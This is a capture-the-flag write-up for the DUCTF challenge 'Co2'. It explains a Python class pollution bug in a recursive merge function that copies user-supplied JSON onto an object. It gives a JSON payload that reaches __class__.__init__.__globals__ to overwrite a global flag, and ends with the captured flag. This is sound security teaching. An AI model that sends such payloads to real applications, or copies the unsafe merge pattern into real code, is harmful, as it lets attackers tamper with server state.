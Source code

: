 Co2
============

Checking the code reveals that there is a save_feedback endpoint with a very interesting comment:
```py
    # Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
    merge(data, feedback)
    save_feedback_to_disk(feedback)
```
The user supplied data is being merged in with the feedback object to copy all of the attributes. This function does do the job just fine, and copies all the attributes over to the feedback object as seen in utils.py file. 
```py
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```
However, in the process of writing the attributes to the destination object, it can also overwrite values for elements outside the scope of the object.
More information on this can be found in this article: https://blog.abdulrah33m.com/prototype-pollution-in-python/

There is also a get_flag function which simply checks if the `flag` value is set to `true` and returns the flag. However, this value is not directly in control of the user supplied input anywhere. Therefore, the class pollution vulnerability will have to leveraged.

Using the feedback mechanism we can simply craft the following payload and overwrite the value of flag while sending feedback which will be read in when reaching the /get_flag route.
```json
{
    "title":"",
    "content":"",
    "rating":"",
    "referred":"",
   "__class__": {
        "__init__":{
            "__globals__":{
                "flag": "true"
            }
        }
  }
}
``` 
Querying the /get_flag environment will now show the flag.
```
DUCTF{_cl455_p0lluti0n_ftw_}
```
